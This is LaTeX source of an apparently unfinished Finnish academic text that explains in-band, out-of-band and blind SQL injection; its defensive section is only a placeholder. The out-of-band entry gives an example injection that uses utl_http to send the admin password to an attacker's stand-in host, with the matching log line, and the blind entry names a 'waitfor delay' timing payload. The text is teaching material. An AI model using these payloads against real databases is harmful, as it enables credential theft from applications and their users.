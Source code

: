 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	\begin{description}
		\item[Inband injektio] \hfill \\
		Kun SQL-injektion tuloste saadaan samaa reittiä kun se on syötetty, on kyseessä inband injektio. Esimerkiksi jos sovelluksessa on mahdollista hakea lista tuotteista jotka ovat maasta jonka käyttäjä antaa kyselyssä.
		
		\item[Out-of-band injektio] \hfill \\
		Kun SQL-Injektion tuloste saadaan eri reittiä kun se on syötetty, on kyseesä out-of-band injektio. Web-sovellus saattaa esimerkiksi tallettaa tietokantaansa millä selaimilla sitä on käytetty. Selaintiedot haetaan HTTP pyynnön "User-Agent" kentästä. Hyökkääjä voi asettaa SQL-injektion User-Agent kenttäänsä. Todennäköisesti hyökkääjä ei näe kyselyn tulosta kyselyn palauttamalla sivulla. Hyökkääjän voi ohjata tulokset itselleen esimerkiksi suorituttamalla injektiossa haun:
		
		\begin{lstlisting}[language=sql]
		utl_http('http://www.hyokkaajansivu.fi/injections/' || 
		SELECT password
		FROM User 
		WHERE username = 'admin'
		)
		\end{lstlisting}
		Injektion onnistuessa hyökkääjän palvelimen logeissa näkyy esimerkiksi:
		
		\begin{lstlisting}
		GET "/injections/admininpassword", 200
		\end{lstlisting}
		
		Tällöin hyökkääjä saa selville käyttäjän admin salasanan.
		
		\item[Sokea injektio] \hfill \\
		Sokea injektio:
		Hyökkääjä ei saa minkäänlaista palautetta sovellukselta. Hyökkääjä voi kuitenkin kokeilla muokata sovelluksen tietoja ja tarkastella vaikuttaako se sovellukseen. Hyökkääjä voi käyttää apunaan sitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-käskyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen. \cite{regexp}
		
		
	\end{description}
	
	
	
	\section {Tietoturvallisen ohjelman toteutus}
	SQL-Injektiolta suojautumiseen on kehitetty useita keinoja.  \textit{TÄHÄN TIIVISTELMÄÄ ALLAOLEVISTA YMS}
	
\end{document}
